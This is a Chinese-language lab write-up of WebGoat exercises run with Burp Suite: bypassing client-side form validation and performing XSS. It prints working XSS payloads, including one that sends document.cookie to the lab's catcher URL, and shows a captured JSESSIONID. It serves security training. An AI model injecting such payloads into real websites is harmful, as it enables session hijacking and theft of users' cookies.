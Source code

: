   ```
  docker ps
  ```

  ![image-20191224192645212](C:\Users\66459\AppData\Roaming\Typora\typora-user-images\image-20191224192645212.png)

访问WebGoat-7.1 不需要注册,访问WebGoat-8.0需要，按照提示步骤注册即可。

输入用户名、密码登录Webgoat页面来验证安装是否成功

- 浏览器添加插件ProxySwitchyOmega，设置proxy

![image-20191224193405513](C:\Users\66459\AppData\Roaming\Typora\typora-user-images\image-20191224193405513.png)

- 设置burpsuite的intercept is on，相当于设置断点，方便调试、转发

![image-20191224193529217](C:\Users\66459\AppData\Roaming\Typora\typora-user-images\image-20191224193529217.png)

#### 1、未验证的用户输入漏洞

- 浏览器添加插件ProxySwitchyOmega，设置proxy

在WebGoat-8.0提交表单

![image-20191224193951064](C:\Users\66459\AppData\Roaming\Typora\typora-user-images\image-20191224193951064.png)

直接forward时，表单无法提交

![image-20191224194040821](C:\Users\66459\AppData\Roaming\Typora\typora-user-images\image-20191224194040821.png)

使用开发者工具修改每一个表单项的内容，让它突破html中的表单填写限制，再次进行forward，即可成功提交

![image-20191224194414719](C:\Users\66459\AppData\Roaming\Typora\typora-user-images\image-20191224194414719.png)

![image-20191224194447511](C:\Users\66459\AppData\Roaming\Typora\typora-user-images\image-20191224194447511.png)

#### 2、XSS跨站脚本攻击

##### 实验环境：WebGoat 7.0.1 

##### 实验目的：

- 通过xss攻击获取受害者的cookie
- 把cookie以参数的形式发送到目标服务器中

查看页面cookie值

<script>alert(document.cookie)</script>
![image-20191224194955453](C:\Users\66459\AppData\Roaming\Typora\typora-user-images\image-20191224194955453.png)

![image-20191224195034961](C:\Users\66459\AppData\Roaming\Typora\typora-user-images\image-20191224195034961.png)

替换：

<script>window.open('http://127.0.0.1:8087/WebGoat/ catcher?PROPERTY=yes&msg='+document.cookie)</script>
此时弹出了一个网页，其URL为
 http://127.0.0.1:8087/WebGoat/catcher?PROPERTY=yes&msg=JSESSIONID=4DC9F3FCD8CD3215786AE469A89699F9
 此url中msg参数和之前弹窗弹出来的cookie相同

